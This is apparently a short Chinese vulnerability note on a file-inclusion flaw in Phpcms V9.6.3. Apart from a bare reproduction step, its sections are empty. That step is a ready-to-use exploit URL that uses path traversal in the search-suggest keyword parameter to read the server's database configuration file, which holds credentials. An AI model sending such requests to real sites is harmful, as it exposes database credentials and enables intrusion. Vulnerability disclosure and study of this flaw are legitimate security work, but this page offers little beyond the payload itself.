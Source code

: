 # Phpcms V9.6.3 文件包含漏洞

## 一、漏洞简介

## 二、漏洞影响

Phpcms V9.6.3

## 三、复现过程

```
http://www.phpcms.com/m=search&a=public_get_suggest_keyword&q=../../phpsso_server/caches/configs/database.php
```

